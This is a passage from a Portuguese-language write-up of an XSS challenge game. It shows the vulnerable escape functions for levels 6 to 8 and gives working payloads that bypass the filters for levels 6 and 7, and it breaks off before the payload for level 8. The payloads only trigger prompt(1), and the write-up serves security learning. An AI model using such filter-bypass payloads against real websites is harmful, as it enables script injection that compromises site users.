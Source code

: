 ```
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}        
```

Para essa questão, o código gera um `<form>` e insere as informações `<input name="exemplo">` com base nos dados inseridos como JSON. Para isso, precisaremos utilizar `javascript:` como valor para inserir informações no campo `action`. Utilizaremos então o seguinte payload:

`javascript:prompt(1)#{"action":1}`

[![Print7.png](https://i.postimg.cc/L64Rgp3P/Print7.png)](https://postimg.cc/3Wqzzz6r)

### Level 7

Aqui está o enunciado do nível 7:

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```

Para esse nível, o código limita a 12 caracteres, e insere cada segmento em `<p>`. Para isso, poderemos utilizar comentários para contornar essa limitação. Utilizaremos então o seguinte payload:

`"><img/src=#"onerror='/*#*/prompt(1)'`

[![Print8.png](https://i.postimg.cc/DZb8LVVr/Print8.png)](https://postimg.cc/k6qJPpgG)

### Level 8

Aqui está o enunciado do nível 8:

```
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```
